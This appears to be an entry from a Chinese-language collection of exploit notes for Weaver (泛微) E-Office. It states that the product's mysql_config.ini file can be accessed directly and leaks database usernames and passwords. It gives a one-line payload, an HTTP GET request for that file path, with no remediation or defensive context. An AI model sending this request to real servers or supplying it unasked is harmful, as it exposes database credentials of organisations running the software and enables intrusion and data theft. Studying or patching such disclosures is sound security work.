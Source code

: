 **漏洞描述：**

泛微 E-Office mysql_config.ini文件可直接访问，泄漏数据库账号密码等信息。

**影响版本：**

泛微E-Office

**Payload：**

```
GET /*/mysql_config.ini
```

---
